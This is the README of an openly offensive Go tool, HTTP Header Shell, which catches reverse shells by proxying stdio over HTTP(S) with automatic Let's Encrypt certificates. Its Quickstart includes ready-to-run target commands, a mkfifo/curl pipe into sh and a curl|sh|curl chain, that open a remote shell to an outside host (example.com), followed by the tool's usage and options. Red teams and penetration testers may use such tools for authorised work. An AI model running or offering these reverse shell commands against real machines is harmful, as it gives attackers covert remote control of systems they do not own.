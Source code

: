 HTTP Header Shell
=================
Simple little HTTP server used for catching one-off shells.  More or less just
a proxy between HTTP requests and stdio.

For legal use only.

Features
--------
- Proxy stdio to an HTTP/s client
- Configurable(ish) HTTP URL path
- Automatic TLS certificate provisioning with Let's Encrypt
- HTTP verb agnostic

Quickstart
----------
Server
```sh
go install github.com/magisterquis/httpheadershell@latest
./httpheadershell -letsencrypt example.com
```
Target
```sh
[[ -p ./f ]] && rm ./f; mkfifo ./f && curl -sNT. https://example.com/httpheadershell-b <./f | sh >./f 2>&1

# ...or...

curl -sN https://example.com/httpheadershell-i | sh 2>&1 | curl -sT. https://example.com/httpheadershell-o
```

Usage
-----
```
Usage: /tmp/go-build3385381189/b001/exe/httpheadershell [options]

Proxies stdio to HTTP clients, meant for catching shells but with real HTTP
headers on the wire.

URL Paths:

/httpheadershell-i - Stdin will be sent via the body of the response
/httpheadershell-o - Request body will be written to stdout
/httpheadershell-e - Request body will be written to stderr
/httpheadershell-b - Stdin will be sent via the body of the response AND
                     Request body will be written to stdout

Use of -letsencrypt constitutes accepting Let's Encrypt's terms and conditions.

Options:
  -cert file
    	Optional TLS certificate file
  -email address
    	Optional email address for Let's Encrypt certificate provisioning
  -key file
    	Optional TLS key file
  -lecache directory
    	Let's Encrypt certificate cache directory (default ".httpheadershell.certs")
  -letsencrypt whitelist
    	Comma-separated Let's Encrypt certificate provisoning whitelist
  -listen address
    	Listen address (default "0.0.0.0:443")
  -path prefix
    	Stdio proxy URL path prefix (default "/httpheadershell-")
  -plaintext
    	Serve plaintext HTTP, not HTTPS
  -staging
    	Use Let's Encrypt's staging server
```
